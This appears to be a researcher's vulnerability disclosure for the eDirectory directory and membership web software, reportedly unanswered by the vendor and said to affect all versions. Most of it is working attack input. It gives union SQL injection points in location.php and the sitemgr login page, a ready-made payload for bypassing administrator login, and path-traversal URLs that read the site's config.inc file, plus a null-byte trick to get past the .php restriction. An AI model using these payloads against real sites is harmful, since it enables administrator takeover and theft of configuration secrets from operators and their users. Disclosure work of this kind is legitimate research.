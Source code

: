 # eDirectory Multiple Vulnerabilities

Author: Efren Diaz @elefr3n
Vendor: https://www.edirectory.com/
Reported: ago/sep 2018 (without response :D)
Software Description: eDirectory is a software to create your own membership website, business directories, yellow pages, coupon sites, local guide, lead gen sites and more.
Version: All

## SQLi
Union SQLi:
```
http://site.com/location.php?type=byId&id=[INT]&childLevel=[INT]&level=[SQLi]
http://site.com/sitemgr/login.php?key=[SQLi]
```

## SQLi to login bypass
Sometimes returns "Invalid key error", then press F5 and you will logged as an administrator :)
```
http://site.com/sitemgr/login.php?key=' union select 0,1,0,'sitemgr' -- -
```

# Authenticated File Dissclosure
Only files with .php extension, but don't forget try nullbyte to avoid that :D
```
http://site.com/sitemgr/langcenter/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
http://site.com/sitemgr/configuration/geography/language/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
```
